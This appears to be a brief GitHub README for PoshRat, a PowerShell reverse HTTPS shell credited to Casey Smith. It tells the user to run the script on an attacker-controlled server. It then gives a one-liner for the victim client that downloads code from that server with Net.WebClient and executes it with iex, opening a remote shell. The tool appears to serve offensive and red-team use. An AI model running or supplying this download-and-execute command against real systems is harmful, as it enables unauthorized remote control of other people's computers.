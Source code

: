 PoshRat
=======

PowerShell Reverse HTTPs Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP/connect")

Created By Casey Smith @subTee

